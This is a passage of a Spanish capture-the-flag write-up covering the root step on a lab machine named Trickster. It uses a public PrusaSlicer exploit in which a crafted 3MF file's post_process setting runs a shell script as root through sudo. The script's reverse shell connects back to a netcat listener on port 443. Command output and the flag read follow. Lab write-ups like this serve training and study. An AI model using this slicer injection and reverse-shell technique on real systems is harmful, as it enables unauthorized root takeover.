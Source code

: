 Buscando por internet, encontramos el siguiente exploit:
- [PrusaSlicer Arbitrary Code Execution
](https://github.com/suce0155/prusaslicer_exploit/)

Seguimos las instrucciones del exploit, modificamos la IP y puerto sobre el fichero *exploit.sh*, si vemos el contenido del fichero *evil.3mf*, contempla el parámetro *post_process* tal y como vimos en el exploit anterior, lo que hará será otorgar permisos y ejecutar nuestro fichero *exploit.sh*, y con el usuario *root*:
```console
; perimeter_extrusion_width = 0.5
; perimeter_generator = arachne
; perimeter_speed = 70
; perimeters = 2
; physical_printer_settings_id = 
; post_process = "chmod +x /tmp/exploit.sh";"bash /tmp/exploit.sh"
; print_settings_id = 0.30mm DRAFT @MK4 0.4 - Copy
; printer_model = MK4
```

Nos ponemos en escucha por el puerto 443 y ejecutamos el binario indicando el fichero malicioso:
```console
adam@trickster:~$ sudo -u root /opt/PrusaSlicer/prusaslicer -s evil.3mf 
10 => Processing triangulated mesh
20 => Generating perimeters
30 => Preparing infill
45 => Making infill
65 => Searching support spots
69 => Alert if supports needed
print warning: Detected print stability issues:

EXPLOIT
Low bed adhesion

Consider enabling supports.
Also consider enabling brim.
88 => Estimating curled extrusions
88 => Generating skirt and brim
```

Conseguimos conexión con el usuario *root*, y leemos la última flag:
```console
sudo nc -nvlp 443   
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.152] from (UNKNOWN) [10.10.11.34] 33852
root@trickster:/home/adam# id
id
uid=0(root) gid=0(root) groups=0(root)
root@trickster:/home/adam# cat /root/root.txt
cat /root/root.txt
******************
root@trickster:/home/adam# 
```
¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!